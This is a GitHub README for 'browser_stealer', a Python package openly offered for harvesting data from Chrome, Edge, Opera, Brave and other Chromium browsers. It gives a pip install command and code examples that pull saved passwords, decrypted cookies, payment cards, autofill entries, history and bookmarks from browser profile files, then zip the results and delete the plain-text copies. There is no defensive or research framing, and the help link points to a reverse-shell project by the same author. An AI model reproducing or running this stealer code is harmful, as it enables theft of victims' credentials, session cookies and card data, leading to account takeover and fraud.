 <!-- <h1 align="center">Browser Stealer<h1> -->

<p align="center">
  <img src="https:\\github.com\Josakko\browser_stealer\blob\main\img\banner.png?raw=true" alt="Browser Stealer">
</p>
  
<p align="center">
  <img src="https://img.shields.io/github/languages/top/Josakko/browser_stealer" </a>
  <img src="https://img.shields.io/github/last-commit/Josakko/browser_stealer" </a>
  <img src="https://img.shields.io/github/stars/Josakko/browser_stealer" </a>
  <img src="https://img.shields.io/github/forks/Josakko/browser_stealer" </a>
</p>

<h4 align="center">
  <span style="color: #fff; font-weight: bold;">Browser Stealer</span>
  <span style="color: #fff; font-weight: normal;">v1.0.0</span>
</h4>

```
pip install browser_stealer
```

## Code Examples

Simple example for stealing data from profile "Default" of browsers: Chromium, Chrome, Opera, Opera GX, Brave, Edge
```py
import browser_stealer

browser_stealer.run()
```

Or you want to add your own chromium based browser or other profiles for existing ones:

```py
import browser_stealer


def MyBrowser():
    browser_stealer.fetch_passwords(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\Login Data", r"AppData\Local\%BROWSER%\%FOLDER%\User Data\Local State")
    browser_stealer.decrypt_fetch_cookies(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\Network\Cookies", r"AppData\Local\%BROWSER%\%FOLDER%\User Data\Local State")
    browser_stealer.fetch_cookies(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\Network\Cookies")
    browser_stealer.fetch_history(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\History")
    browser_stealer.fetch_downloads(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\History")
    browser_stealer.fetch_bookmarks(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\Bookmarks")
    browser_stealer.fetch_payment(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\Web Data", r"AppData\Local\%BROWSER%\%FOLDER%\User Data\Local State")
    browser_stealer.fetch_autofill(r"AppData\Local\%BROWSER%\%FOLDER%e\User Data\%PROFILE%\Web Data")
    
    browser_stealer.zip("MyBrowser.zip", ["autofill.txt", "cards.txt", "bookmarks.txt", "downloads.txt", "history.txt", "passwords.txt", "decrypted-cookies.txt", "cookies.txt"])
    browser_stealer.delete_files(["autofill.txt", "cards.txt", "bookmarks.txt", "downloads.txt", "history.txt", "passwords.txt", "decrypted-cookies.txt", "cookies.txt"])

MyBrowser()
```

## Need Help?

If you need help contact me on my [discord server](https:\\discord.gg\xgET5epJE6) or create [issue](https:\\github.com\Josakko\DiscordReverseShell\issues).

## Contributors

Big thanks to all of the amazing people (only me) who have helped by contributing to this project!
